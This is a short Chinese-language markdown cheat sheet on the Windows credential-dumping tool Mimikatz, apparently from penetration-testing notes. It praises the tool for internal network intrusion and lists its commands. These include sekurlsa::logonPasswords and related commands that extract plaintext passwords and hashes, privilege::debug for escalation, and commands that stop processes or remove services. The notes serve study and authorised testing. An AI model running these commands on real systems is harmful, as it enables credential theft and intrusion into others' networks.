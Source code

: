 # mimikatz

Mimikatz是法国人编写的一款轻量级的调试工具，理论上可以抓取所有windows系统的明文密码，因此在内网渗透过程中应用非常广，属于内网渗透必备工具之一，被很多人称之为密码抓取神器。Mimikatz其实并不只有抓取口令这个功能，它还能够创建票证、票证传递、hash传递、提升进程权限、注入进程、读取进程内存等等、甚至伪造域管理凭证令牌等诸多功能。

- 基础命令

```cmd
cls     # 清屏
exit    # 退出
version # 查看mimikatz的版本
system::user        # 查看当前登录的系统用户
system::computer    # 查看计算机名称
process::list       # 列出进程
process::suspend    # 进程名称--暂停进程
process::stop       # 进程名称--结束进程
process::modules    # 列出系统的核心模块及所在位置
service::list       # 列出系统的服务
service::remove     # 移除系统的服务
service::start stop # 服务名称--启动或停止服务
privilege::list     # 列出权限列表
privilege::enable   # 激活一个或多个权限
nogpo::cmd          # 打开系统的cmd.exe
nogpo::regedit      # 打开系统的注册表
nogpo::taskmgr      # 打开任务管理器
ts::processes       # 显示进程和对应的pid情况等
sekurlsa::ekeys     # 抓取hash



privilege::debug    # 提升权限

ts::sessions        # 显示当前的会话
sekurlsa::wdigest   # 获取本地用户信息及密码
sekurlsa::tspkg     # 获取tspkg用户信息及密码
sekurlsa::msv       # 抓取hash
sekurlsa::logonPasswords    # 获登陆用户信息及密码
```
